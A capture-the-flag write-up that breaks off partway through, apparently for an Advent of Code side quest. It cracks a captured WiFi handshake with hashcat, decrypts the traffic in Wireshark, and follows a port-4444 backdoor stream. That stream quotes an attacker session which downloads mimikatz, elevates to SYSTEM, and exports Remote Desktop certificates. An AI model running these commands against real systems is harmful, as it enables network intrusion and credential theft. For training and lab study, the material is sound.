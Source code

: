 > AoC Side Quest Ctf
- So serious I almost lost my marbles on four separate occasions trying to finish this
#### Question 1
- Finding the name of the wifi network was easy
- Upzip the .pcapng file, load it into wireshark, and you see pretty quickly that the SSID is `FreeWifiBFC`
#### Question 2
- To find the password, first use this site: https://hashcat.net/cap2hashcat/ to extract the handshake file w the pass hash, then use this command:
```shell
hashcat -m 22000 <path/to/hash/file> /usr/share/wordlists/rockyou.txt.gz
```
- Two lines like this should appear in the results:
```
af804935ab322d4b0bbd84a711c36f01:22c712c7e235:d267d13f36ec:FreeWifiBFC:Christmas
c10a70d965945b57f2988ae0fcfd2b22:22c712c7e235:2a8449acf9d8:FreeWifiBFC:Christmas
```
#### Question 3
- Now that we have the wifi password, we can decrypt the traffic
- In wireshark, go to `Edit > Preferences > Protocols > IEEE 802.11`
- Usually, you can just load the decryption key like this `wpa-pwd|Christmas`
- I also had to enable `Assume packets have FCS` for the decryption to work
- After that, there are other visible protocols and steams, such as `TCP`
- There was a hint about backdoors in the room, and the `TCP` backdoor port is 4444
- Search `tcp.port == 4444`, find a `PSH ACK` packet, and follow the TCP steam
- You should get something like this:
```
Windows PowerShell running as user Administrator on INTERN-PC
Copyright (C) Microsoft Corporation. All rights reserved.



PS C:\Users\Administrator> PS C:\Users\Administrator> 
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name                                             
----                -------------         ------ ----                                             
d-----       11/23/2023   9:47 PM                .ssh                                             
d-r---        3/17/2021   3:13 PM                3D Objects                                       
d-r---        3/17/2021   3:13 PM                Contacts                                         
d-r---       11/25/2023   2:12 PM                Desktop                                          
d-r---        3/17/2021   3:13 PM                Documents                                        
d-r---       11/24/2023  10:53 PM                Downloads                                        
d-r---        3/17/2021   3:13 PM                Favorites                                        
d-r---        3/17/2021   3:13 PM                Links                                            
d-r---        3/17/2021   3:13 PM                Music                                            
d-r---       11/24/2023  10:44 PM                Pictures                                         
d-r---        3/17/2021   3:13 PM                Saved Games                                      
d-r---        3/17/2021   3:13 PM                Searches                                         
d-r---        3/17/2021   3:13 PM                Videos                                           
-a----       11/25/2023   6:01 AM           8192 psh4444.exe                                      


PS C:\Users\Administrator> whoami
intern-pc\administrator
PS C:\Users\Administrator> wget https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip -O mimi.zip
PS C:\Users\Administrator> Expand-Archive .\mimi.zip
PS C:\Users\Administrator> mv mimi/x64/mimikatz.exe .
PS C:\Users\Administrator> cmd /c mimikatz.exe privilege::debug token::elevate crypto::capi "crypto::certificates /systemstore:LOCAL_MACHINE /store:\`"Remote Desktop\`" /export" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

496	{0;000003e7} 1 D 16529     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
 * Process Token : {0;0002bbfa} 2 D 25564822  	INTERN-PC\Administrator	S-1-5-21-1966530601-3185510712-10604624-500	(14g,24p)	Primary
 * Thread Token  : {0;000003e7} 1 D 25609341  	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Impersonation (Delegation)

mimikatz(commandline) # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz(commandline) # crypto::certificates /systemstore:LOCAL_MACHINE /store:"Remote Desktop" /export
 * System Store  : 'LOCAL_MACHINE' (0x00020000)
 * Store         : 'Remote Desktop'
```
- (there's more but you get the point)
- From this we can determine that the tool they are running is `mimikatz`
#### Question 4
- The important part of the info we found for question 3 is that the attacker used a ps command to read a `.pfx` file adn covert is to base64
- pfx files usually contain a public key, private key, and certificate chain, and they are suually used to store things like TLS certs
- 
